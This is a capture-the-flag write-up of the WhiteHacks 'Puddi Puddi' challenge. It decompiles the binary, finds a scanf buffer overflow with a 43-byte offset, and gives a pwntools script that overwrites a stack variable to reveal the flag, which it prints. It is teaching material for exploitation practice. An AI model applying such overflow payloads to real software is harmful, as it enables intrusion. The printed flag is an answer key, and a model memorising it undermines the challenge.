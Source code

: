 # Puddi Puddi
---

### Challenge Description

Why have a MEGA 🍮 when you can have a GIGA 🍮?

Interact with the service using nc chals.whitehacks.ctf.sg 20301 to get started!

---
### Challenge 

ooooooooo first binary exploitation for whitehacks yikes

Okay so we are given a ELF binary file... and a python exploit template (wow how generous WH)

When we execute the binary file, it takes an input 

```
Do you like pudding? (Y/N) => input

PUDDI PUDDI!

PUDDI PUDDI!

SUGOKU DEKKAI...

Oops we ran out of pudding...
```

How interesting. Let's get into breaking this apart

---
### Solution

So first, we decompile the binary file in Ghidra. From the main function, we obtain the following:

```

  __isoc99_scanf(&DAT_00100d87,input);
  puts("PUDDI PUDDI!");
  sleep(1);
  puts("PUDDI PUDDI!");
  sleep(1);
  puts("SUGOKU DEKKAI...");
  sleep(1);
  iVar1 = strcmp(size,"GIGA");
  if (iVar1 != 0) {
    puts("Oops we ran out of pudding...");

```

As you can see, the input is taken by ``__isoc99_scanf(&DAT_00100d87,input);``.

If you don't understand whatever is in the line of code, it's fine because I don't undestand either, decompiled code can get pretty messy.

The main point is that the function called scanf will take an input which is called input in this case.

It then compare a variable called ``size`` which was defined further up in the function and compares it with GIGA. If true, it prints out a flag.

Now the question is how can we use our input to change the size variable to hold GIGA so that the compare will be true and the code will print out flag? Buffer overflow.

_also remember there was an exploit template that was given which was meant for buffer overflow_

In order to buffer overflow, we need to know the offset between input and size, so we can determine how many bytes we need to overflow into the size variable.

Going back to our Ghidra, we go to the stack layout and we see the following.

```
size[5]         Stack[-0xd]:5      size
char[32]        Stack[-0x38]...    input
```

With some calculations, ``0x38 - 0xd = 43`` _you can do this in python_

We find that the offset is 43. Now we can start writing our exploit.

```py
from pwn import *
HOST = 'chals.whitehacks.ctf.sg' # name of the host to connect to
PORT = 20301  # number of the port to connect to 
io = remote(HOST, PORT) # connects to the service
io.recvuntil('Do you like pudding? (Y/N) => ') # receives data until input prompt
payload = b'A'*43 # to fill up all 43 bytes of offset so we can reach overflow
payload += b'GIGA' # GIGA will overflow into size
io.sendline(payload) # sends your payload to the service
io.interactive() # allows you to interact with service manually
```

VOILA!

A beautiful ASCII picture is printed and there is our flag.

```
[+] Opening connection to chals.whitehacks.ctf.sg on port 20301: Done
[*] Switching to interactive mode
PUDDI PUDDI!
PUDDI PUDDI!
SUGOKU DEKKAI...

 .d8888b.  8888888  .d8888b.         d8888       8888888b.  888     888 8888888b.  8888888b. 8888888 888 
d88P  Y88b   888   d88P  Y88b       d88888       888   Y88b 888     888 888  "Y88b 888  "Y88b  888   888 
888    888   888   888    888      d88P888       888    888 888     888 888    888 888    888  888   888 
888          888   888            d88P 888       888   d88P 888     888 888    888 888    888  888   888 
888  88888   888   888  88888    d88P  888       8888888P"  888     888 888    888 888    888  888   888 
888    888   888   888    888   d88P   888       888        888     888 888    888 888    888  888   Y8P 
Y88b  d88P   888   Y88b  d88P  d8888888888       888        Y88b. .d88P 888  .d88P 888  .d88P  888    "  
 "Y8888P88 8888888  "Y8888P88 d88P     888       888         "Y88888P"  8888888P"  8888888P" 8888888 888

WH2021{3880fba0faf0_g1g4_pudd1}
```
